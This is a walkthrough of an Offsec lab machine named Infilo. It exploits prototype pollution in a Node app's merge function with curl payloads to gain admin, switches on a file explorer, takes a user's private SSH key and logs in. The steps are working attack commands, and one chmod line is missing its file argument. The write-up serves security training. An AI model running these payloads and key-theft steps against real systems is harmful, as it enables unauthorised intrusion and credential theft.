Offsec - Infilo - Walktrough
Reconnaissance
Start by storing the target IP in a variable inside .zshrc for convenience:

Apply the change to the current session with source, or open a new terminal:
└─$ source ~/.zshrcRun a full port scan to identify all open services:

└─$ nmap -p- $IPThe scan reveals three open ports: 22 (SSH), 80 (HTTP), and 3000. Follow up with a version and script scan to confirm what is running on each:

└─$ sudo nmap -p22,80,3000 -A $IPEnumeration
Navigating to the target IP in the browser redirects to http://infilo.local:3000/.
Add infilo.local to /etc/hosts to resolve the hostname, then reload the page:

Clicking Try The Demo reveals a file explorer feature, currently locked:

The home page offers a download of the application's source code:

The lab description flags this application as vulnerable to prototype pollution.
Reviewing the source code with that in mind, the following function stands out as the attack vector:

The deepMerge function iterates over user-supplied keys and, when a value is an object, calls Object.assign on the target, discarding the key entirely and merging the value's contents one level up. There is no filtering of dangerous keys, making it possible to overwrite arbitrary object properties.
Exploitation
By sending a carefully nested payload, the broken merge can be used to overwrite the profile.role property and escalate to admin, then enable the file explorer:
└─$ curl -X POST http://infilo.local:3000/api/profile/update -H "Content-Type: application/json" -d '{"x": {"profile": {"role": "admin"}}}' -c cookies.txt"The response confirms admin privileges. The session cookie is saved to cookies.txt:

Copy the cookie value and inject it via the browser's developer tools:

After reloading the page, the session is now authenticated as admin:

With admin access established, enable the file explorer using the same merge technique against the settings endpoint:
└─$ curl -X POST http://infilo.local:3000/api/settings/update -H "Content-Type: application/json" -b cookies.txt -d '{"x": {"features": {"fileExplorer": true}}}'The file explorer is now active, exposing the server's filesystem:

The private SSH key for user tony is accessible at /home/tony/.ssh/id_rsa.
Download it and use it to authenticate via SSH:
└─$ chmod 600 && ssh tony@$IP -i id_rsaAccess to tony's account is confirmed and the first and only flag is retrieved:

That's it. I hope that you, just like me, learned something new today!